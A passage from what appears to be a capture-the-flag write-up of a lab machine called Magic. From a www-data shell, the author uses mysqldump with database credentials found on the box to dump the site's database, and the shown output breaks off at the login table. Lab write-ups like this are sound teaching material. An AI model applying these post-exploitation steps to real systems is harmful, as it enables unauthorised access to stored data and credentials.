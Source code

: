        public static function disconnect()
        {
            self::$cont = null;
        }
    }
    

### Database Dump

Unfortunately, `mysql`, the binary I would typically use to connect to the
local port and interrogate the DB, isn’t on the box. This is a case where
having a full PTY shell on the box paid off, because when I typed
`mys[tab][tab][tab]`, it gave a list of things that were on the box:

    
    
    www-data@ubuntu:/var/www/Magic$ mysql
    mysql_config_editor        mysql_secure_installation  mysqladmin                 mysqld                     mysqldumpslow              mysqlrepair
    mysql_embedded             mysql_ssl_rsa_setup        mysqlanalyze               mysqld_multi               mysqlimport                mysqlreport
    mysql_install_db           mysql_tzinfo_to_sql        mysqlbinlog                mysqld_safe                mysqloptimize              mysqlshow
    mysql_plugin               mysql_upgrade              mysqlcheck                 mysqldump                  mysqlpump                  mysqlslap
    

It would have been not that hard to upload
[Chisel](https://github.com/jpillora/chisel) and create a tunnel from my host
to the MySQL port (3306) listening on localhost on Magic, but `mysqldump`
jumped out as an alternative. Once I figured out the syntax, it worked like a
charm:

    
    
    www-data@ubuntu:/$ mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
    mysqldump: [Warning] Using a password on the command line interface can be insecure.              
    -- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)                                           
    --                                               
    -- Host: localhost    Database: Magic                                                             
    -- ------------------------------------------------------                             
    -- Server version       5.7.29-0ubuntu0.18.04.1                                       
    
    /*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;                                 
    /*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;                               
    /*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;                                 
    /*!40101 SET NAMES utf8 */;              
    /*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
    /*!40103 SET TIME_ZONE='+00:00' */;              
    /*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
    /*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
    /*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
    /*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;
    
    --                                                       
    -- Table structure for table `login`                     
    --                                                       
                                                             